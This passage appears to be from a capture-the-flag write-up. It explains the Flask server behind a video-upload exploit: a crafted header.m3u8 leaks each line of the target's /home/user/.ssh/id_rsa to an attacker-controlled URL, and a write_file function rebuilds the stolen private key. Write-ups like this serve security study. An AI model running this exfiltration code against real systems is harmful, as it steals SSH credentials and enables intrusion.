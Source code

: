 So the `upload_video` function puts the corresponding offset into the `video.avi` file and uploads it to the server as `multipart/form-data` with `video/x-msvideo` content type. Notice that the file path is hard-coded (`/home/user/.ssh/id_rsa`) because this script is used specifically to extract this file.

We must enter the `adminToken` obtaind with the previous script in order to use the file upload utility.

The Flask server has two routes configured:

```python
enable = 0


@app.route('/header.m3u8', methods=['GET'])
def header():
    global IP
    global enable

    if enable < 2:
        enable += 1
        return f'#EXTM3U\n#EXT-X-MEDIA-SEQUENCE:0\n#EXTINF:,\nhttp://{IP}/?d='
    else:
        upload_video(len('\n'.join(file)) + 1)
        enable = 0

    return ''


@app.route('/', methods=['GET'])
def index():
    data = request.args.get('d').replace(' ', '+')
    file.append(data)
    write_file()

    return ''
```

The first one is just to return a file that must be present in order to run the exploit (the `enable` variable is used to block subsequent requests and force to upload the `video.avi` file with the next offset). The file `header.m3u8` must end in `http://{IP}/?d=` so that the line of the file is appended to that URL and we can receive it in the `d` parameter. Once it is received, it is added to the `file` variable and written to the `id_rsa` file:

```python
def write_file():
    with open('id_rsa', 'w') as f:
        f.write('\n'.join(file) + '\n-----END OPENSSH PRIVATE KEY-----\n')
```

I set the footer of the `id_rsa` file because it causes an error in Flask, since the line contains white spaces and Flask is not able to parse the request.

In the end, we will get the fill `id_rsa` file:
